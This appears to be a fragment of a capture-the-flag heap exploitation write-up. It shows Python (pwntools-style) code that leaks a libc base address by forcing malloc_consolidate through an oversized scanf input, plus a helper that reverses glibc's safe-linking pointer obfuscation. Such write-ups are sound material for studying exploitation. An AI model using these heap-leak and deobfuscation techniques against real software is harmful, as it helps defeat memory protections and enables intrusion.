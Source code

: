 ## Libc base leak
```python
# get a free chunk in the fastbin
for i in range(1, 9):
    create(i, b"A")
for i in range(8, 0, -1):
    delete(i)

# Send large input to scanf (triggers malloc_consolidate())
io.sendlineafter(b"> ", b"1"*0x500)

# fill tcache chunks
for i in range(9, 16):
    create(i, b"")

# this chunk will contain libc address
create(16, b"")
libc_leak = u64(read(16)[:8])
libc_base = libc_leak - 0x203000 - 0xb0a
log.success(f"libc leak @ {hex(libc_leak)}")
log.success(f"libc base @ {hex(libc_base)}")
```



# Utils

```python
# Defeat glibc's heap pointer obfuscation
# mangled = ptr ^ (address >> 12), where address is the address the pointer is stored at
# If the pointer is stored in the same page, we can fully recover the leaked pointer value,
# as we know the first 12 bits
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val
```



